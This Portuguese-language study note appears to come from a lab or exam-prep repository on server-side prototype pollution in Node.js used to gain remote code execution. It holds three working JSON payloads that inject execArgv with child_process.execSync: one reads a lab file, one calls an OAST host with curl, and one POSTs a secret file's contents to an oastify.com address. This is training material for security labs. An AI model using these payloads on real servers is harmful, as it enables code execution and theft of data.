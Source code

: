 # SSPP - Server Side Prototype Pollution

Probabilidade: $${\color{lightblue}baíxissima}$$.

<br>

Separei esse Prototype Pollution do que está na Etapa 2 para evitar confusão, mas basicamente é igual o Server-Side que está lá mas com objetivo de RCE.

<br>

## Laboratórios

**Remote Code Execution via Server-Side Prototype Pollution**
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('cat /home/carlos/morale.txt')"
    ]
}
```

> [!CAUTION]
> O comando acima foi trocado de 'rm' para 'cat' de propósito, para evitar que você copie o comando e delete o arquivo secret do exame. Nos laboratórios, de fato você precisará usar o comando 'rm'.

Se você quer testar a execução do comando:
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://OASTIFY.COM')"
    ]
}
```

<br>

Versão adaptada:
```
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('cat /home/carlos/secret | curl -X POST --data-binary @- http://xuvdjpko5xqmt5y70ln82cejbah15xtm.oastify.com')"
    ]
}
```
